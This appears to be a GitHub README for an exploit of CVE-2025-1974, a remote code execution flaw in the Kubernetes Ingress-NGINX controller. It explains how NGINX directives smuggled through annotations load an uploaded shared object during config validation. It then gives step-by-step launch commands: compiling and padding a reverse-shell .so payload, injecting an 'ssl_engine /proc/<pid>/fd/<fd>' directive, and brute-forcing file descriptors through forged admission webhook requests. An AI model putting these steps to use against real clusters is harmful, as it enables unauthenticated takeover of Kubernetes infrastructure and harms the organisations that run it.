# CVE-2025-1974 – Ingress-NGINX Arbitrary Code Execution Exploit

> ⚠️ For educational and authorized security research purposes only.

## 🔥 CVE-2025-1974 Overview

**CVE-2025-1974** is a critical remote code execution vulnerability in the **Kubernetes Ingress-NGINX Controller**. It allows an **unauthenticated attacker** to execute **arbitrary code inside the Ingress controller pod**, by abusing how custom annotations are processed during NGINX config reloads.

### Root Cause

Ingress-NGINX supports annotations like `auth-url` that get inserted into the live NGINX config. An attacker can smuggle **NGINX directives** using crafted annotation values (e.g., `ssl_engine`) which get injected into the config and are **executed during validation**.

When the `nginx -t` test validates a malicious `ssl_engine` directive pointing to a temporary uploaded `.so` file, NGINX tries to **dynamically load and execute** it via OpenSSL, causing **arbitrary code execution**.

## 🧠 Exploit Summary

This exploit works in **two phases**:

1. **Upload Phase**  
   A `.so` payload (compiled shared library) is uploaded to the NGINX ingress controller using a crafted POST request that **triggers NGINX buffering**, keeping the file open via a file descriptor (FD).

2. **Trigger Phase**  
   The attacker brute-forces `/proc/<pid>/fd/<fd>` combinations by sending forged `AdmissionReview` requests to the **admission webhook**, injecting a malicious `auth-url` that contains:
   ```nginx
   ssl_engine /proc/<pid>/fd/<fd>;
   ```

   ## 🚀 Exploit Launch Guide

Once you've prepared the following:

- ✅ `shell.c` — Your C reverse shell payload  
- ✅ `shell.so` — Compiled & padded `.so` shared object  
- ✅ `exploit.py` — The main Python exploit script  
- ✅ `requirements.txt` — Python dependencies

---

###  Steps

```bash
###📦 1.Install requirements
pip3 install -r requirements.txt

###🧨 2. Compile & Pad Payload
gcc -shared -fPIC -o shell.so shell.c
python3 -c "import os; f=open('shell.so','ab'); f.write(b'\x00'*(16384 - (os.path.getsize('shell.so') % 16384))); f.close()"

###💥 3. Launch Exploit
python3 exploit.py \
  --upload-url http://127.0.0.1:8080 \
  --admission-url https://127.0.0.1:8443 \
  --shell shell.so \
  --pid-start 26 \
  --pid-end 40 \
  --fd-start 1 \
  --fd-end 100




